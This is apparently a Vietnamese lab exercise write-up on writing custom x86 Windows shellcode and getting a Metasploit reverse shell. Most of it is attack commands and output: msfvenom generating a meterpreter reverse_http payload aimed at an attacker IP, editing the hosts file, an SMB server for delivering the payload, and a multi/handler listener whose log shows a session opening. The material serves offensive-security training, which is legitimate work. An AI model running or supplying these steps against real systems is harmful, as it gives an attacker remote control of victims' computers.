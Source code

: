 # Bài 2:
Lưu ý chụp lại các đoạn có IP của máy Debug sau khi đã khai thác thành công để làm minh chứng.  
[Các template các hàm](https://github.com/Cl0wnK1n9/ShellcodeTemplate-windowx86/tree/main/Functions)  

Để load DLL thì đổi sang ASCII sang hex (Lưu ý trong code viết bytes theo chiều ngược lại) \
Để load API thì tính hash: \
[Code tính hash tên các API](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/getAPIhash.py)

Để sinh payload bằng metasploit trên máy tấn công tại thư mục /home/kali/:
```
msfvenom -p windows/meterpreter/reverse_http HOST=192.168.45.178 LPORT=3333 -f exe -o met.exe
```

Thay đổi file hosts trên máy Windows để tạo kết nối UNC sang máy tấn công.  
Dùng notepad để thêm 1 dòng trong file hosts.
```
# localhost name resolution is handled within DNS itself.
#  127.0.0.1       localhost
#  ::1             localhost
    <Địa chỉ IP>   kali
```

Để tạo SMB server trên máy tấn công ([Nếu không có lệnh smbserver.py]())
```
sudo smbserver.py met /home/kali/ -smb2support
```

Khi đã chạy smb server thành công thì có thể kiểm tra bằng lệnh sau trên máy Windows:
```
pushd <Đường dẫn UNC>
# VD: pushd \\ubuntu\folder
# Khi đó trong terminal sẽ hiện lên folder của bên máy đang chạy SMB 

# Thoát đường dẫn
popd <Đường dẫn UNC>
```

Thực thi shellcode (file python) trên máy Windows và tạo listener trên máy tấn công với các lệnh sau:
```
# Exploit after met.exe execution
$ sudo msfdb init
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 3333
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j

[*] Started HTTP reverse handler on http://192.168.22.105:3333
[*] http://192.168.22.105:3333 handling request from 192.168.22.106; (UUID: cg2uneb8) Staging x86 payload (178780 bytes) ...
[*] Meterpreter session 1 opened (192.168.22.105:3333 -> 192.168.22.106:49826) at 2025-01-23 05:17:18 -0500

# Sau khi hiện các dòng trên thì liệt kê sessions và attach nếu ko thấy chữ meterpreter hiện 
session -l

sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```

Tham khảo cách viết: [Shellcode trong sách](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/shellcode_NO_CHANGE_PLEASE.py)  

Trong quá trình debug, có thể dùng lệnh `dds <địa chỉ>` để kiểm tra các hàm đã được lưu đúng chưa.  
Nếu các hàm đã được lưu đúng thì sẽ hiện tên hàm ở trong output.
